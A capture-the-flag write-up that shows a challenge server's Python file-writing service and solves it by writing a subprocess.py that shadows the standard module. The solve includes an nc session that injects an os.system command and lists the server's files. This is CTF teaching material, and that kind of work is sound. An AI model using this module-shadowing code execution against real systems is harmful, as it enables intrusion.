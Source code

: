 > Writing as a Service! Author: NoobMaster + NoobHacker.  Instance: *
>
> Files: chall.py
> 

We are given the code running on the server:

```python
import subprocess
from base64 import b64decode as d
while True:
	print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
	try:
		inp = int(input("Choice: ").strip())
	except:
		print("Invalid input!")
		exit(0)
	if inp == 1:
		file = input("Enter file name: ").strip()
		assert file.count('.') <= 2 # Why do you need more?
		assert "/proc" not in file # Why do you need to write there?
		assert "/bin" not in file # Why do you need to write there? 
		assert "\n" not in file # Why do you need these?
		assert "chall" not in file # Don't be overwriting my files!
		try: 
			f = open(file,'w')
		except:
			print("Error! Maybe the file does not exist?")

		f.write(input("Data: ").strip())
		f.close()
		print("Data written sucessfully!")
		
	if inp == 2:
		flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
		print(flag.stdout.strip())
```

The program let us write any file and read a fake flag, so I tried to rewrite the program file and create an alias for cat, but none of that worked.  

Next, focused on the `import` sentences: `base64` was not used, why was it there then? (it was a hint?). So I began to try with some module overriding techniques, as Python prioritises modules on the same folder rather than the installed ones.

Here I tried locally first with the `base64` module, but it didn’t worked, so I switched to `subprocess`. This time, by creating a `subprocess.py` file, the program took the file as the `subprocess` module, achieving the execution of the code in the program. 

After this, I switched to online with a simple test to try to find the flag:

```
└─$ nc challs.n00bzunit3d.xyz 10357
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: subprocess.py
Data: import os; os.system("ls -la");
Data written sucessfully!
...
└─$ nc challs.n00bzunit3d.xyz 10357
total 88
...
-r--r--r--    1 root     root            52 Aug  4 13:43 flag.txt
...
```